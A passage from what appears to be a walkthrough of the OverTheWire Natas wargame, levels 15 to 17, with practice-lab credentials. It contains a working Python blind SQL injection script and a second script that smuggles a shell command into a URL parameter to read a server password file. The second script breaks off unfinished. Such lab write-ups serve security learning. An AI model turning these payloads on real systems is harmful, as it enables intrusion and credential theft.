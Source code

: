 Username: natas15
Lab URL: http://natas15.natas.labs.overthewire.org/

In that case there is [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection). Using following pyhton code can be used to obtain password:

```
import requests
import string 

username = "natas15"
passwd = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

valid = "This user exists."

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16" and substr(password, {}, 1) like binary"{}&debug'.format(i, ch)
        r = requests.get(url, auth=(username, passwd))
                
        if valid in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))

```

password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# ## [Level 16 -> Level 17](https://overthewire.org/wargames/natas/natas17.html)

Username: natas16
Lab URL: http://natas16.natas.labs.overthewire.org/

I have updated previwous script to get password from this level:

```
import requests
import string 

username = "natas16"
passwd = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

valid = "hacker"

characters = list(string.digits) + list(string.ascii_letters)

print('Characters: {}'.format(''.join(characters)))

password = []

for i in range(1, 34):
    for ch in characters:
        url = 'http://natas16.natas.labs.overthewire.org/?needle=$(grep -E ^{}.* /etc/natas_webpass/natas17)hacker'.format(''.join(password)+ch)
        r = requests.get(url, auth=(username, passwd))
                
```